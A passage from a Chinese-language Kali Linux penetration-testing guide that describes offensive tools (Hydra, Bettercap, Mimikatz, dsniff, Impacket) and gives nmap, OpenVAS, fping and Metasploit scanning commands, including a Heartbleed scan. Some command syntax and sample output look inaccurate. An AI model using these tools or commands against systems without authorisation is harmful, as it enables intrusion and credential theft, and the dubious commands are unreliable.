- **支持多种协议**：`Ettercap` 支持包括 TCP/IP、DNS、HTTP 和 SMB 在内的多种网络协议，使其成为网络分析和安全测试的价值工具。

## Hydra
Hydra 是一种网络登录破解工具，可对 SSH、FTP、Telnet 等多种服务进行暴力攻击。该工具支持多种协议并并行尝试大量的登录据，是安全测试和渗透测试的热选。

### Hydra 的主要特性：
- **暴力攻击**：`Hydra` 能够对 SSH、FTP、Telnet 等多种服务执行暴力攻击，使其成为安全测试和渗透测试的价值工具。
- **支持多种协议**：`Hydra` 支持包括 SSH、FTP、Telnet、HTTP 在内的多种网络协议，使其成为安全测试的多种功能工具。
- **并行处理**：`Hydra` 能够并行尝试大量的登录据，使其成为一种快速且高效的安全测试工具。
- **可定制的攻击选项**：`Hydra` 允许用户自定义攻击选项，如并行线程数、登录尝试次数以及使用的登录据，使其成为安全测试的灵活工具。


## Kismet
`Kismet` 是一种用于检测、捕和分析无线网络流量的工具，作为无线网络检测器、嗅探器和入侵检测系统（IDS）。它通常用于无线安全测试，可用于识别接入点、连接到网络的设备以及其他无线网络活动。

## Kismet 的主要特性
- **无线网络检测**：`Kismet` 能够检测无线网络和接入点，还可以检测连接到网络的无线设备。
- **流量分析**：`Kismet` 可以分析无线网络流量，提供有关正在传输的流量类型、传输设备以及网络使用模式的信息。
- **入侵检测**：`Kismet` 可用于检测对无线网络的未经授权访问，并向用户警潜在的安全威胁。
- **多捕获源**：`Kismet` 支持多种捕获源，包括 Wi-Fi 卡、USB 设备等，使其成为无线安全测试的多功能工具。
- **开源**：`Kismet` 是开源软件，允许安全研究人员和开发者修改并改进代码以满足其特定需求。

## Foremost
`Foremost` 是一种基于控制的开源数字取证工具，用于从磁盘镜像或存储媒体（如硬盘或内存卡）中恢复文件。它可以根据文件的头部和尾部签名（signatures）恢复多种文件类型，包括图形、音频、视频和文本。

## Foremost 的主要特性
- **文件恢复**：`Foremost` 可以根据文件格式的头尾签名恢复各种文件类型，使其成为数字取证调查的价值工具。
- **支持多种文件格式**：`Foremost` 支持广泛的文件格式，包括图形、音频、视频和文本，使其成为数字取证的多功能工具。
- **自定义配置文件**：`Foremost` 允许用户创建自定义配置文件来指定文件格式的头尾签名，使其能够根据自定义或未知的文件格式恢复文件。
- **与其他工具集成**：`Foremost` 可以与其他数字取证工具（如 `Autopsy`）集成，以增强您的工具包功能。
- **开源**：`Foremost` 是开源软件，允许安全研究人员和开发者修改并改进代码以满足其特定需求。

## Crunch
`Crunch` 是一款免费且开源的密码破解工具，用于生成用于密码破解攻击的字典。该工具可以根据用户定义的字符集、长度和模式生成字典，使其成为渗透测试和漏洞评估的价值工具。

## Crunch 的主要特性
- **字典生成**：`Crunch` 可以根据用户定义的字符集、长度和模式生成字典，使其成为密码破解的价值工具。
- **自定义字符集**：`Crunch` 允许用户定义自定义字符集，根据特定需求（如使用特殊字符或数字）生成字典。
- **模式生成**：`Crunch` 支持模式生成，允许用户根据特定模式或规则（如递增数字或日期）生成字典。
- **开源**：`Crunch` 是开源软件，允许安全研究人员和开发者修改并改进代码以满足其特定需求。

## Bettercap
`Bettercap` 是一款免费的开源工具，用于网络安全评估和攻击。它可以执行广泛的攻击，包括中间人（MITM）攻击、网络嗅探等。

## Bettercap 的主要特性
- **中间人攻击**：`Bettercap` 能够执行各种中间人（MITM）攻击，包括网络嗅探、数据包操纵等。
- **网络嗅探**：`Bettercap` 可用于网络嗅探，允许其实时捕获并分析网络流量。
- **模块化架构**：`Bettercap` 采用模块化架构，允许用户轻松添加新模块并扩展工具的功能。
- **自定义脚本**：`Bettercap` 支持自定义脚本，允许用户自动化并扩展工具的功能。
- **开源**：`Bettercap` 是开源软件，允许安全研究人员和开发者修改并改进代码以满足其特定需求。

## Metagoofil
`Metagoofil` 是一款免费的开源工具，用于从网站上的公共文档中提取元数据。它通常用于渗透测试和信息安全评估的侦察阶段。

## Metagoofil 的主要特性
- **元数据提取**：`Metagoofil` 能够从多种文件格式提取元数据，包括 PDF、Microsoft Office 和 OpenOffice 文档。
- **多搜索引擎**：`Metagoofil` 可以使用多个搜索引擎（包括 `Google`、`Bing` 和 `Yahoo`）查找网站公共文档。
- **可自定义**：`Metagoofil` 是自定义的，允许用户指定想要提取的元数据类型以及想要搜索的文件类型。
- **开源**：`Metagoofil` 是一个开源工具，允许安全研究人员和开发者修改并改进代码以满足其特定需求。

## Recon-ng
`Recon-ng` 是一个 Web 侦察框架，用于进行开源情报（OSINT）调查。它通常被渗透测试、安全研究人员和调查人员用于收集有关目标及其在线存在的信息。

## Recon-ng 的主要特性
- **模块化架构**：`Recon-ng` 采用模块化架构，允许用户根据需要轻松添加或删除模块。使其成为 OSINT 调查中高度灵活且可自定义的工具。
- **内置报告**：`Recon-ng` 包含报告功能，允许用户轻松生成详细列出调查期间收集的信息的报告。
- **大量模块**：`Recon-ng` 拥有大量模块，可以从各种来源（包括社交媒体、网站和数据库）收集信息。
- **命令行界面**：`Recon-ng` 具有命令行界面，便于使用和自动化。

## FFuf
`FFuf` (Fuzz Faster U Fool) 是一种快速、灵活且可靠的 Web 模糊（fuzzer）工具，用于 Web 应用安全测试。它的设计旨在通过向目标应用程序发送带有各种有效负载（payloads）的大量请求，帮助安全人员识别 Web 应用中的漏洞，如输入验证问题和配置错误。

## FFUF 的主要特性
- **快速性能**：`FFuf` 设计快速且高效，使得在短时间内发送大量请求成为可能。
- **自定义负载**：`FFuf` 允许用户指定自定义负载，使针对特定的漏洞和测试场景成为可能。
- **多线程支持**：`FFuf` 支持多线程，允许用户同时发送多个请求，有助于加速测试过程。
- **输出格式化**：`FFuf` 包含输出格式选项，便于解析和分析模糊会话的结果。

## sslscan
`sslscan` 是一种用于测试 SSL/TLS（传输层安全）加密连接安全性的安全工具。它通常用于渗透测试、漏洞评估和安全审计，以识别 SSL/TLS 配置中的安全弱点。

## sslscan 的主要特性
- **SSL/TLS 配置分析**：`sslscan` 可以对 SSL/TLS 配置进行彻底分析，识别常见漏洞，如弱加密套件、协议配置错误和证书链问题。
- **支持多种协议**：`sslscan` 支持广泛的 SSL/TLS 协议，包括 `SSLv2`、`SSLv3`、`TLSv1`、`TLSv1.1` 和 `TLSv1.2`。


支持多种证书颁发机构：`sslscan` 可以测试由各种证书颁发机构（CA）签 SSL/TLS 连接，包括公共 CA 和私有 CA。

输出格式：`sslscan` 提供清晰简洁的输出，易于理解安全扫描结果。

`dnsmap` 是一种用于子域名枚举和侦察的安全工具。它通常在渗透测试和漏洞评估期间使用，用于收集有关目标网络及其子域名的信息。

`dnsmap` 的主要特性包括：

-   **子域名枚举**：`dnsmap` 可以快速识别并枚举目标域的子域名，帮助安全专业人员收集有关目标网络的信息。
-   **暴力破解**：`dnsmap` 可以对子域名进行暴力破解攻击，尝试通过穷举搜索识别有效的子域名。
- ****通配符检测**：`dnsmap` 可以检测通配符 DNS 记录，这在进行子域名枚举时可能会导致误报结果。
-   **命令行界面**：`dnsmap` 提供简单直观的命令行界面，便于使用并与其他安全工具集成。

`Netcat` 是一种使用 TCP 或 UDP 协议在网络连接上传输数据的实用，支持读取和写入。它被安全专业人员、网络管理员和开发者广泛使用，是你工具箱中极具价值的工具。

`Netcat` 可用于多种用途，包括：

-   **端口扫描**：`Netcat` 可扫描目标主机上的开放端口，允许你识别哪些服务正在运行并监听入站连接。
-   **网络测试**：`Netcat` 可用于测试网络连通性并在两个主机之间传输数据，是排查网络问题的有用工具。
-   **文件传输**：`Netcat` 可以促进两个系统之间的文件传输，可以直接对网络套字进行读写，或使用 FTP、HTTP 等协议。
-   **后门**：`Netcat` 还可以用于在目标系统中创建后门，允许攻击者在不被发现的情况下远程访问系统。

-   `Gobuster` 是一个用于枚举 Web 服务器上的目录和文件的命令行工具。它用于渗透测试和漏洞评估期间的侦察，允许安全专业人员识别目标 Web 服务器上隐藏的目录和文件。

`Gobuster` 的主要特性包括：

-   **可自定义字典列表**：`Gobuster` 允许你使用自定义的字典列表进行目录和文件名枚举，能够根据目标 Web 服务器的特定需求定制工具。
-   **多线程**：`Gobuster` 支持多线程，允许你通过并行发送多个请求来提高目录和文件枚举的速度。
-   **隐身性**：`Gobuster` 支持使用随机 User-Agent 和延迟，能够以更隐蔽的方式进行侦察，降低了触发入侵检测系统的概率。
-   **支持多种协议**：`Gobuster` 支持 HTTP 和 HTTPS 协议，以及使用自定义 Header 和 Cookie 的能力。

-   `Sherlock` 是一个开源工具，用于在不同的社交媒体平台和网站上查找用户名。它为安全研究人员、道德黑客和执法机构设计，用于识别个人和组织的在线状态。

`Sherlock` 的原理是通过向不同的社交媒体平台和网站发送一系列 API 请求和爬虫技术，搜索目标用户名。该工具随后汇总结果并在详尽报告中显示，允许你快速方便地识别目标的在线情况。

`Sherlock` 的主要特性包括：

-   **广泛覆盖**：`Sherlock` 支持大量的社交媒体平台和网站，包括 Twitter、Facebook 和 LinkedIn 等流行平台，以及较冷知的站点。
-   **可自定义字典列表**：`Sherlock` 允许你使用自定义的字典列表来搜索用户名，能够根据调查的特定需求定制工具。
-   **自动化数据收集**：`Sherlock` 自动化了数据收集过程，允许你快速方便地收集有关个人或组织在线状态的信息。
-   **易于使用**：`Sherlock` 具有简单直观的命令行界面，即使是技术知识有限的人也能轻松使用。

-   `Dirbuster` 是一个 Web 服务器目录扫描器，用于识别目标 Web 服务器上隐藏的目录和文件。它通常在渗透测试和漏洞评估期间使用，用于收集目标 Web 服务器的信息，帮助安全专业人员识别潜在的攻击向量。

`Dirbuster` 通过向目标 Web 服务器发送一系列 HTTP 请求，以常用目录和文件名列表作为请求基础。工具随后分析服务器的响应以确定请求的目录或文件是否存在。`Dirbuster` 还可以执行暴力破解攻击，尝试所有可能的字符组合以识别隐藏的目录和文件。

`Dirbuster` 的主要特性包括：

-   **可自定义字典列表**：`Dirbuster` 允许你使用自定义的字典列表进行目录和文件名枚举，能够根据目标 Web 服务器的特定需求定制工具。
-   **多线程**：`Dirbuster` 支持多线程，允许你通过并行发送多个请求来提高目录和文件枚举的速度。
-   **支持多种协议**：`Dirbuster` 支持 HTTP 和 HTTPS 协议，以及使用自定义 Header 和 Cookie 的能力。
-   **用户友好界面**：`Dirbuster` 具有用户友好的图形界面，即使是技术知识有限的人也能轻松使用。

-   `CeWL`（自定义字典列表生成器）是一个基于 Ruby 的工具，用于从网站创建自定义字典列表，用于密码破解和字典攻击。`CeWL` 扫描目标网站并根据在网站内容中发现的单词创建字典列表，包括标题、标题和正文。

`CeWL` 的主要特性包括：

-   **可定制性**：`CeWL` 允许你自定义扫描深度以及包含在字典中的单词类型，能够根据调查的特定需求定制工具。
-   **易于使用**：`CeWL` 具有简单的命令行界面，即使是技术知识有限的人也能轻松使用。
-   **快速**：`CeWL` 设计初衷是快速，允许你快速从网站生成字典列表。
-   **开源**：`CeWL` 是开源工具，允许安全研究人员和开发者修改并改进代码以满足他们的特定需求。

-   `Wifite` 是一个自动化无线审计工具，用于评估 Wi-Fi 网络的安全性。它为安全专业人员和道德黑客的渗透测试和漏洞评估而设计。`Wifite` 专注于攻击 WEP、WPA 和 WPA2 加密的无线网络，并支持多种无线网络适配器。

`Wifite` 通过扫描无线接入点、捕获目标网络的握手、使用各种破解技术破解加密密码，然后利用网络来工作。`Wifite` 还支持使用自定义字典列表和规则进行破解，允许用户根据调查的特定需求定制工具。

`Wifite` 的主要特性包括：

-   **自动化攻击**：`Wifite` 自动化了攻击无线网络的过程，使安全专业人员和道德黑客更容易评估 Wi-Fi 网络的安全性。
-   **支持多种无线网络适配器**：`Wifite` 支持多种无线网络适配器，使得在多种平台上都可以使用该工具。


## Wifite

可自定义字典文件和规则：`Wifite` 允许用户在破解时使用自定义字典文件和规则，使其能够根据目标无线网络的特定需求定制工具。

快速且高效：`Wifite` 的设计初衷是快速且高效，允许你快速评估多个无线网络的安全性。

## Dirb

`Dirb` 是一款 Web 服务器目录扫描器，用于识别目标 Web 服务器上的隐藏目录和文件。它通常用于渗透测试和漏洞评估期间，用于收集目标 Web 服务器的信息，帮助安全专业人员识别潜在的攻击向量。

`Dirb` 的工作原理是通过向目标 Web 服务器发送一系列 HTTP 请求，并使用常用目录和文件名列表作为请求的基础。随后，该工具分析服务器的响应，以确定请求的目录或文件是否存在。

`Dirb` 还可以执行暴力破解攻击，尝试所有可能的字符组合以识别隐藏的目录和文件。

### Dirb 的主要特性
- **可自定义字典文件**：`Dirb` 允许你使用自定义的字典文件进行目录和文件名枚举，使其能够根据目标 Web 服务器的特定需求定制工具。
- **快速且高效**：`Dirb` 的设计旨在快速且高效，允许你快速扫描大量 Web 服务器并识别隐藏的目录和文件。
- **支持多种协议**：`Dirb` 支持 `HTTP` 和 `HTTPS` 协议，以及使用自定义请求头和 Cookie 的功能。
- **开源**：`Dirb` 是一个开源工具，允许安全研究人员和开发者修改改进代码以满足他们的特定需求。

## TheHarvester

`TheHarvester` 是一款开源信息收集工具，用于收集有关目标组织的电子邮件地址、子域名、主机名、IP 地址和其他信息。它通常用于侦察和威胁情报行动，以及渗透测试和漏洞评估。

`TheHarvester` 的工作原理是使用公开可用的信息源（如搜索引擎、公共数据库和社交媒体平台）来收集有关目标组织的信息。该工具支持多种搜索引擎，包括 `Google`、`Bing`、`Yahoo` 等，且设计快速高效，允许你快速收集关于目标的大量信息。

### TheHarvester 的主要特性
- **支持多种来源**：`TheHarvester` 支持多种信息源，包括搜索引擎、公共数据库和社交媒体平台，使其成为收集目标信息的强大工具。
- **快速且高效**：`TheHarvester` 的设计旨在快速且高效，允许你快速收集关于目标的大量信息。
- **可自定义搜索查询**：`TheHarvester` 允许你指定自定义搜索查询，使其能够根据调查的特定需求定制工具。
- **开源**：`TheHarvester` 是一个开源工具，允许安全研究人员和开发者修改改进代码以满足他们的特定需求。

## SubFinder

`SubFinder` 是一款开源子域名发现工具，用于发现目标域的子域名。它通常用于侦察和威胁情报行动，以及渗透测试和漏洞评估。

`SubFinder` 的工作原理是使用各种技术（包括 `DNS` 暴力破解、被动爬取和公共 `APIs`）来收集目标域的子域名信息。该工具设计高效，可以发现未列在 `DNS` 记录或公共资源中的子域名。

### SubFinder 的主要特性
- **多数据源**：`SubFinder` 使用多个数据源，包括 `DNS` 暴力破解、被动爬取和公共 `APIs` 来发现目标域的子域名。
- **快速且高效**：`SubFinder` 的设计旨在快速且高效，允许你快速发现目标域的子域名。
- **与其他工具集成**：`SubFinder` 可以与其他工具（如 Web 应用扫描器）集成，以增强你工具箱的信息收集能力。
- **开源**：`SubFinder` 是一个开源工具，允许安全研究人员和开发者修改改进代码以满足他们的特定需求。

### Nikto

`Nikto` 是一款开源 Web 服务器扫描器工具，用于识别 Web 服务器中的漏洞。它通常用于渗透测试、漏洞评估，以及 Web 应用安全评估。

`Nikto` 的工作原理是通过向目标 Web 服务器发送大量 HTTP 请求并分析响应来识别潜在漏洞。该工具检查广泛的漏洞，包括 Web 服务器软件的已知漏洞、配置错误的 Web 服务器以及存在已知漏洞的 Web 应用。

### Nikto 的主要特性
- **全面检查**：`Nikto` 检查 Web 服务器和 Web 应用中广泛的漏洞，是识别潜在安全风险的强大工具。
- **快速且高效**：`Nikto` 的设计旨在快速且高效，允许你快速扫描大量 服务器。
- **与其他工具集成**：`Nikto` 可以与其他工具（如 Web 应用防火墙）集成，以增强你的基础设施安全性。
- **开源**：`Nikto` 是开源的，允许安全研究人员和开发者修改改进代码以满足他们的特定需求。

## hping3

`hping3` 是一种网络测试、指纹识别和数据包制作工具，用于测试网络和应用的安全性。它通常用于渗透测试和漏洞评估，以及网络安全评估。

`hping3` 的工作原理允许你创建自定义数据包并发送到目标系统或网络。该工具可以测试广泛的网络协议，包括 `TCP`、`UDP`、ICMP 等。`hping3` 可执行多种任务，如网络扫描、网络指纹识别。

### hping3 的主要特性
- **自定义数据包**：`hping3` 允许你创建自定义数据包，使其能够根据评估的特定需求定制发送的包。
- **支持多种协议**：`hping3` 支持广泛的网络协议，包括 `TCP`、`UDP`、ICMP 等，是网络测试的多功能工具。
- **与其他工具集成**：`hping3` 可以与其他工具（如网络扫描器和漏洞评估工具）集成，以增强工具箱的功能。
- **开源**：`hping3` 是一个开源工具，允许安全研究人员和开发者修改改进代码以满足他们的特定需求。

## Mimikatz

`Mimikatz` 是一款免费的开源工具，用于 Windows 密码审计和分析。它通常用于渗透测试和漏洞评估，以及数字取证调查。

`Mimikatz` 的工作原理是从运行进程的内存和 Windows 注册表中提取身份凭据。该工具可以提取密码、哈希值和其他身份相关信息，例如 `Kerberos` 票据和 `NTLM` 哈希值。

### Mimikatz 的主要特性
- **密码提取**：`Mimikatz` 可以提取密码、哈希值和其他身份相关信息，是密码审计和分析的价值工具。
- **支持多种认证协议**：`Mimikatz` 支持广泛的认证协议，包括 `NTLM`、`Kerberos` 等，是 Windows 密码审计的多功能工具。


## 与其他工具集成
Mimikatz 可以与其他工具集成，例如密码破解工具和渗透测试框架，以增强你的工具包的功能。

开源：Mimikatz 是一个开源工具，允许安全研究人员和开发者修改并改进代码，以满足他们的特定需求。

## dsniff
dsniff 是一套用于网络审计和渗透测试的工具。它被用于监控和拦截网络流量，并识别目标网络中的安全漏洞。

- `arpspoof`: 用于通过投毒目标系统上的 ARP 缓存来拦截和更改网络流量的工具。
- `dnsspoof`: 用于通过伪造 DNS 响应来拦截和更改 DNS 流量的工具。
- `filesnarf`: 用于捕获网络传输文件的工具。
- `mailsnarf`: 用于捕获网络传输的电子邮件的工具。
- `msgsnarf`: 用于捕获网络传输的即时消息对话的工具。
- `sshmitm`: 用于通过伪造 SSH 服务器来拦截和更改 SSH 流量的工具。
- `webmitm`: 用于通过伪造 Web 服务器来拦截和更改 HTTP 流量的工具。

## Netdiscovery
Netdiscovery 是一种网络发现工具，用于收集网络上设备的信息。它设计用于扫描目标网络并识别连接到其上的设备，包括它们的 IP 地址、操作系统和开放端口。

Netdiscovery 使用多种技术（如 ping 扫描、端口扫描和操作系统指纹识别）来收集目标网络上设备的信息。Netdiscovery 收集的信息可以用于识别目标网络中的潜在安全漏洞，并帮助规划和执行网络渗透测试。

### Netdiscovery 的核心特性
- **快速高效的扫描**：Netdiscovery 的设计目标是快速且高效，允许安全专业人员快速收集目标网络上设备的信息。
- **详细信息**：Netdiscovery 提供目标网络上设备的详细信息，包括它们的 IP 地址、操作系统和开放端口。
- **可自定义扫描**：Netdiscovery 允许用户自定义扫描以满足其特定需求，通过选择扫描类型、扫描的 IP 地址范围以及要收集的信息类型。
- **多线程**：Netdiscovery 是多线程的，允许它同时扫描多个 IP 地址，使扫描过程更快、更高效。

## Impacket-scripts
Impacket-scripts 是一组 Python 脚本，用于网络安全评估和渗透测试。这些脚本构建在 `Impacket` 库之上，该库提供了一系列底层的 Python 类，用于处理网络协议和服务。

`Impacket-scripts` 集合包含了许多可用于各种用途的工具，例如：
- **密码破解**：`packet-scripts` 中包含了几个可以破解密码的脚本。例如，`GetNPUsers.py` 可用于提取目标网络上用户的密码哈希值。
- **网络侦察**：有多个脚本可用于收集目标网络的信息，例如 `smbserver.py`，它可以用于创建虚假的 SMB 服务器并收集有关客户端连接的信息。
- **漏洞利用**：有多个脚本可用于利用目标网络中的漏洞，例如 `wmiexec.py`，它可以在目标 Windows 系统上执行任意命令。
- **横向移动**：有多个脚本可以在目标网络内进行横向移动，例如 `psexec.py`，可以在远程系统上执行命令。

## Kali Linux
Kali Linux 提供的工具包为网络和安全评估、渗透测试和取证分析提供了一个全面的平台。其友好的界面和广泛的文档使得资深人士和新手用户都能轻松上手。频繁的更新和社区驱动的开发确保了该工具包能够与最新的安全威胁和漏洞保持同步。无论是用于专业目的还是教育目的，Kali Linux 都是一个宝贵的资源，提供了为了领先于潜在安全威胁并确保网络和系统安全所需的工具和知识。


## 5. 网络扫描与侦察
网络扫描和侦察是渗透测试过程的第一步，渗透测试是评估计算机系统或网络安全的过程。网络扫描和侦察的目标是收集目标网络及其系统的信息，旨在识别潜在的安全漏洞和弱点。

## 网络扫描
网络扫描：这是使用自动化工具搜索连接到目标网络的设备的过程，包括它们的 IP 地址、操作系统、开放端口和其他信息。通过网络扫描收集的信息用于构建目标网络及其系统的映射，然后可以使用它来规划和执行进一步的安全测试。

Kali Linux 中一些常用的网络扫描工具包括：

- **Nmap**：Nmap 是一种广泛使用的网络映射工具，可用于扫描目标网络上的主机、开放端口和其他信息。
  - **扫描主机**：要扫描目标网络上的主机，你可以在终端中使用以下命令：
    ```
    nmap [target IP range or hostname]
    ```
  - **扫描开放端口**：要扫描目标主机上的开放端口，你可以使用以下命令：
    ```
    nmap -p [port range] [target IP or hostname]
    ```
  - **扫描服务**：要扫描目标主机上运行的服务，你可以使用以下命令：
    ```
    nmap -sV [target IP or hostname]
    ```
  - **操作系统指纹识别**：要确定目标主机上运行的操作系统，你可以使用以下命令：
    ```
    nmap -O [target IP or hostname]
    ```

- **Zenmap**：Zenmap 是 Nmap 的图形用户界面 (GUI)，使其对非技术用户更容易使用。
- **Nessus**：Nessus 是一个全面的漏洞扫描器，可识别目标网络中的漏洞。

### 使用 Zenmap 进行网络扫描的示例：
- **扫描单个主机**：在“Target”字段中，输入要扫描的系统的 IP 地址或主机名。选择一个配置，然后点击“Scan”按钮。
- **扫描多个主机**：在“Target”字段中，输入 IP 范围或用空格分隔的主机名列表。选择一个配置，然后点击“Scan”按钮。
- **使用自定义 Nmap 命令扫描**：在“Target”字段中，输入要扫描的系统的 IP 地址或主机名。在“Profile”部分选择“Custom command”。在“Command”字段中，输入自定义的 Nmap 命令。例如：`nmap -p- -A`。点击“Scan”按钮开始扫描。
- **保存扫描结果**：扫描完成后，点击“File”菜单并选择“Save”。选择一个目标路径来保存文件并选择一种文件格式（例如 Nmap XML）。

- **OpenVAS**：OpenVAS 是一个漏洞评估系统，可用于扫描目标网络中的漏洞。
  - **扫描单个主机**：在“Targets”部分，点击“New Target”。输入要扫描的系统的 IP 地址或主机名。点击“Create”。在列表中选择目标并点击“Start Scan”。
  - **扫描多个主机**：在“Targets”部分，点击“New Target”。输入 IP 地址范围或用空格分隔的主机名列表。点击“Create”。在列表中选择目标并点击“Start Scan”。
  - **使用特定的扫描配置扫描**：在“Configurations”部分，选择一个扫描配置。在“Targets”部分，选择你要扫描的节点。点击“Start Scan”。


### 调度定期扫描
在“目标”（Targets）部分，选择您想要扫描的目标。点击“调度”（Schedule）。为调度输入一个名称，选择频率（例如：每天），并选择开始时间。点击“创建”（Create）。

### 扫描单个主机
运行以下命令：

```
openvas-scanner -n <target_ip>
```

### 扫描多个主机
运行以下命令：

```
openvas-scanner -n <target_ips>
```

其中 `<target_ips>` 是由空格分隔的 IP 地址列表。

### 使用特定的扫描配置进行扫描
运行以下命令：

```
openvas-scanner -n <target_ip> -c <config_id>
```

其中 `<config_id>` 是您想要使用的扫描配置的 ID。

### 生成报告
扫描完成后，运行以下命令生成报告：

```
openvas-report-generate -f <format> -d <report_directory> <task_id>
```

其中 `<format>` 是报告的格式（例如 "pdf"），`<report_directory>` 是保存报告的目录，`<task_id>` 是扫描任务的 ID。

### Angry IP Scanner
Angry IP Scanner 是一个简单快速的 IP 扫描器，用于扫描目标网络上的主机。

```
ipscan [options] <target_ip>
```

其中 `<target_ip>` 是您想要扫描的 IP 地址或 IP 地址范围，而 `[options]` 是您想要包含的任何可选参数。

例如，要扫描具有端口范围的单个主机，可以运行以下命令：

```
ipscan -p 20-80 <target_ip>
```

要扫描多个主机，您可以指定一个 IP 地址范围作为目标：

```
ipscan -p 20-80 192.168.1.1-192.168.1.255
```

### Advanced IP Scanner
Advanced IP Scanner 是一个快速且可靠的 IP 扫描器，可扫描目标网络上的主机、服务和其他信息。

```
AdvancedIPScanner.exe [options] <target_ip>
```

其中 `<target_ip>` 是您想要扫描的 IP 地址或 IP 地址范围，而 `[options]` 是您想要包含的任何可选参数。

要扫描具有端口范围的单个主机，可以运行以下命令：

```
AdvancedIPScanner.exe -p 20-80 <target_ip>
```

要扫描多个主机，您可以指定一个 IP 地址范围作为目标：

```
AdvancedIPScanner.exe -p 20-80 192.168.1.1-192.168.1.255
```

### Fping
Fping 是一个简单的 ping 工具，用于测试目标网络的连通性。这些只是 Kali Linux 中包含的几个网络扫描工具。这些工具强大且灵活，可用于收集有关目标网络及其系统的信息，并识别潜在的安全漏洞和弱点。

```
fping [options] <target_ips>
```

其中 `<target_ips>` 是由空格分隔的 IP 地址列表，`[options]` 是您想要包含的任何可选参数。

要 ping 单个主机，可以运行以下命令：

```
fping <target_ip>
```

要 ping 多个主机，您可以指定一个 IP 地址列表作为目标：

```
fping 192.168.1.1 192.168.1.2 192.168.1.3
```

### 端口扫描
端口扫描是网络扫描的一种，侧重于识别目标系统上的开放端口和服务。端口扫描用于识别潜在的漏洞利用目标，并发现目标系统安全中的弱点。Kali Linux 备了多种端口扫描工具。最常用的端口扫描工具包括：

### Nmap
Nmap（Network Mapper）它可以扫描网络并识别开放端口，还可以执行许多其他任务，如操作系统检测、主机发现和漏洞评估。

**Nmap 端口扫描命令：**

扫描单个主机的开放端口：
```
nmap <target_ip>
```

扫描多个主机的开放端口：
```
nmap <target_ip1> <target_ip2> <target_ip3>
```

扫描 IP 范围的开放端口：
```
nmap 192.168.1.1-255
```

扫描子网的开放端口：
```
nmap 192.168.1.0/24
```

扫描主机的特定端口号：
```
nmap -p <port_numbers> <target_ip>
```

快速扫描：
```
nmap -F <target_ip>
```
此选项将仅扫描最常用的端口，从而加快扫描过程。

操作系统检测：
```
nmap -O <target_ip>
```
此选项将尝试确定目标主机的操作系统。

版本检测：
```
nmap -sV <target_ip>
```
此选项将尝试确定开放端口上运行的服务的版本。

隐蔽扫描：
```
nmap -sS <target_ip>
```
此选项执行隐蔽扫描，不容易被防火墙和入侵检测系统发现。

指定源 IP 地址：
```
nmap --source-port <port_number> <target_ip>
```
此选项允许您指定 Nmap 用于扫描的源 IP 地址和端口

#### Zenmap
Zenmap 是 Nmap 的图形化界面。它提供了一个友好的界面，便于执行网络扫描并查看结果。

#### Nessus
Nessus 是一种商业漏洞扫描器，提供有关主机的深度信息，包括开放端口、服务和漏洞。它被安全专业人员广泛用于安全审计和评估。

要使用 Nessus 进行端口扫描，可以创建一个专门关注端口扫描的自定义扫描策略。以下是在 Nessus 中创建端口扫描自定义扫描策略的步骤：

1. 登录 Nessus 界面。
2. 点击“Policies”（策略）选项卡。
3. 点击“New Policy”（新建策略）按钮。
4. 为您的策略命名并选择“Custom”（自定义）作为策略模板。
5. 在“Plugins”（插件）部分，选择“Port scans”（端口扫描）并配置所需的端口扫描选项，例如扫描端口范围和扫描速度。
6. 在“Scan Options”（扫描选项）部分，选择“Host discovery”（主机发现）并根据需要配置选项。
7. 保存。


运行上述命令后，扫描将开始，并在扫描完成后显示结果。

你可以使用 `nessuscli` 工具来检索结果。例如，要检索已完成扫描的完成，可以使用以下命令：

```
nessuscli report list
```

这会列出所有可用报告，你可以通过 `--report` 选项结合扫描 ID 来检索特定扫描的报告：

```
nessuscli report fetch --report <scan_id>
```

以检索特定扫描的报告，其中 `<scan_id>` 代表目标扫描的 ID。结果将保存在 Nessus (`.nessus`) 文件中，随后你可以在 Nessus 界面中或使用兼容 Nessus 的报告工具查看它。

## Metasploit

Metasploit 用于开发、测试和执行漏洞利用（exploits）。它包含了多种用于端口扫描的工具，以及利用已发现漏洞的工具。

你可以使用 Metasploit 通过 `auxiliary/scanner/portscan/` 模块进行端口扫描。以下是使用 Metasploit 进行端口扫描的步骤：

1. **启动 Metasploit 控制台**：打开终端并运行命令 `msfconsole` 来启动 Metasploit 控制台。
2. **加载端口扫描模块**：在 Metasploit 控制台中输入 `use auxiliary/scanner/portscan/tcp` 来加载 TCP 端口扫描模块。
3. **设置目标**：输入 `set RHOSTS <target_ip>` 设置目标 IP 地址。将 `<target_ip>` 替换为想要扫描的目标 IP 地址。
4. **设置端口范围**：输入 `set PORTS <port_range>` 设置要扫描的端口范围。将 `<port_range>` 替换为所需的端口范围，例如 1-1024。
5. **开始扫描**：输入 `run` 开始扫描。

扫描结果将显示在 Metasploit 控制台中，指示哪些端口是开放、关闭或被过滤的。你还可以使用其他 Metasploit 模块来执行更高级的扫描，例如版本扫描或漏洞扫描。

### 使用 Metasploit 进行端口扫描的示例

```
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 1-1024
PORTS => 1-1024
msf5 auxiliary(scanner/portscan/tcp) > run
[+] 192.168.1.100:22 Open SSH
[+] 192.168.1.100:80 Open HTTP
[+] 192.168.1.100:443 Open HTTPS
[-] 192.168.1.100:631 Closed Printer
[-] 192.168.1.100:3389 Closed Remote Desktop
...
```

在此示例中，启动了 Metasploit 控制台并加载了 TCP 端口扫描模块。目标 IP 地址被设置为 `192.168.1.100`，要扫描的端口范围设置为 `1-1024`。然后通过输入 `run` 开始扫描。结果显示目标上的端口 22、80 和 443 是开放的，而端口 631 和 3389 是关闭的。

### 使用 Metasploit 进行更高级扫描的示例，包括服务和版本检测

```
msf5 > use auxiliary/scanner/ssl/openssl_heartbleed
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set PORTS 443
PORTS => 443
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set THREADS 10
THREADS => 10
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run
[+] 192.168.1.100:443 OpenSSL Heartbleed (CVE-2014-0160) Vulnerability
[+] Server: Apache
[+] SSL Version: TLSv1.0
[+] Cipher: ECDHE-RSA-AES128-SHA
...
```

